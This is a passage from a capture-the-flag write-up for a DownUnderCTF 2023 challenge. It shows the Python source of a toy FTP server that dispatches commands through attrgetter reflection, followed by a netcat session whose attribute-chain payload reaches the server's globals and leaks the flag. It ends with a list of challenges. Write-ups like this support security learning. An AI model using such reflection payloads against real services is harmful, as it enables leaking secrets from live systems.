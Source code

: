 Retrieving the `pwn` file gives the source code of the FTP server. It is a light-weight FTP server that is written in Python, which uses python's reflection features to map commands to methods. The reflection is done by the line: `func=operator.attrgetter(cmd)(self)`

```python
    f = open("/chal/flag.txt", "r")
    FLAG = f.read()   # This variable is not referenced any further
    f.close()

    def run(self):
        sys.stdout.buffer.write('220 vsFTPd (v2.3.4) ready...\r\n'.encode(ENCODING)) # Red Herring

        while True:
            sys.stdout.flush()
            recv=sys.stdin.buffer.readline()
            if not recv: break
            else:
                lst = recv.decode(ENCODING).strip().split(" ", 1)
                if len(lst) < 2:
                    cmd, args = lst[0], ""
                else:
                    cmd, args = lst      
                try:
                    func=operator.attrgetter(cmd)(self)
                    msg = func(args)
                    sys.stdout.buffer.write(f'{msg}'.encode(ENCODING))
                except Exception as e:
                    sys.stdout.buffer.write(f'500 Sorry. {e}\r\n'.encode(ENCODING))

```
So, we need to treat this challenge like a pyjail challenge, where we can only invoke methods on the `FTPServerThread` object and must read the value of the `FLAG` variable. 

```bash
% nc 2023.ductf.dev 30029
__class__.__init__.__globals__.__getitem__ FLAG
DUCTF{15_this_4_j41lbr34k?}

# official solution
__init__.__globals__.get FLAG
```

### Resources and writeups
* Official writeups: https://github.com/DownUnderCTF/Challenges_2023_Public
* https://www.skullsecurity.org/2015/how-i-nearly-almost-saved-the-internet-starring-afl-fuzz-and-dnsmasq


### Challenges
{{< collapse "Expand to see the list of challenges" >}}
|Category|Challenge|Description
|----|----|----
beginner |All Father's Wisdom|
beginner |Needle In IAM|
beginner |Survey|
beginner |Welcome to DUCTF!|
beginner |blinkybill|
beginner |complementary|
beginner |confusing|
beginner |discord|
beginner |downunderflow|
beginner |flag art|
beginner |helpless|
beginner |one byte|
beginner |proxed|

[^1]: https://cabulous.medium.com/dns-message-how-to-read-query-and-response-message-cfebcb4fe817
[^2]: https://spathis.medium.com/how-dns-got-its-messages-on-diet-c49568b234a2